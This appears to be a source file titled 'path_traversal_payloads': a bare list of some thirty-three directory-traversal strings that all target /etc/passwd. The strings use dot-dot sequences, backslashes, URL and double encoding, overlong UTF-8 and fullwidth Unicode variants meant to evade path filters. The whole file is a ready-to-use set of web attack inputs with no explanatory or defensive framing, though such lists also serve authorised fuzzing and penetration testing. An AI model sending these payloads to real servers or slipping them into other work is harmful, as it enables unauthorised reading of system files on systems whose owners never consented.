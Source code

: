 # path_traversal_payloads


../../../../../../../../../../../../../../../../etc/passwd
..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\etc/passwd
..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\etc\passwd
..././..././..././..././..././..././..././..././..././..././..././..././..././..././..././..././etc/passwd
...\.\...\.\...\.\...\.\...\.\...\.\...\.\...\.\...\.\...\.\...\.\...\.\...\.\...\.\...\.\...\.\etc/passwd
..\/..\/..\/..\/..\/..\/..\/..\/..\/..\/..\/..\/..\/..\/..\/..\/etc/passwd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc/passwd
%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc/passwd
%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%afetc/passwd
%uff0e%uff0e%u2215%uff0e%uff0e%u2215%uff0e%uff0e%u2215%uff0e%uff0e%u2215%uff0e%uff0e%u2215%uff0e%uff0e%u2215%uff0e%uff0e%u2215%uff0e%uff0e%u2215%uff0e%uff0e%u2215%uff0e%uff0e%u2215%uff0e%uff0e%u2215%uff0e%uff0e%u2215%uff0e%uff0e%u2215%uff0e%uff0e%u2215%uff0e%uff0e%u2215%uff0e%uff0e%u2215etc/passwd
%uff0e%uff0e%u2216%uff0e%uff0e%u2216%uff0e%uff0e%u2216%uff0e%uff0e%u2216%uff0e%uff0e%u2216%uff0e%uff0e%u2216%uff0e%uff0e%u2216%uff0e%uff0e%u2216%uff0e%uff0e%u2216%uff0e%uff0e%u2216%uff0e%uff0e%u2216%uff0e%uff0e%u2216%uff0e%uff0e%u2216%uff0e%uff0e%u2216%uff0e%uff0e%u2216%uff0e%uff0e%u2216etc/passwd
..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5cetc/passwd
..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5cetc\passwd
..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5cetc%5cpasswd
..%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255cetc\passwd
..%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255cetc%255cpasswd
..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd
..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd
..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc/passwd
..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
./../../../../../../../../../../../../../../../../etc/passwd
.\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\etc/passwd
.\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\etc\passwd
.%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5cetc/passwd
.%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5cetc\passwd
.%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5cetc%5cpasswd
.%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255cetc\passwd
.%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255cetc%255cpasswd
.%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd
.%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd
.%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc/passwd
.%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
